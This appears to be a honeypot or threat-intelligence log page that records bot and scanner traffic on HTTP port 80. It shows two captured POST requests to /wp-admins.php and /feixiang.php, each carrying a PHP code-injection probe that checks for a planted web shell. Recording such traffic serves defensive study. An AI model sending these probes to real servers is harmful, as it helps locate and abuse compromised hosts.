

# Various attempts from Bots/Scanners

# Protocols:
HTTP

# Ports:
80

# Sample:

```
POST /wp-admins.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36
Host: 209.97.144.74
Content-Length: 36
Connection: Keep-Alive
Cache-Control: no-cache

ajax=true&a=Php&p1=die(@md5(Apri1));

POST /feixiang.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.91 Safari/537.36
Host: 209.97.144.74
Content-Length: 26
Connection: Keep-Alive
Cache-Control: no-cache

feixiang=die(@md5(Apri1));
```

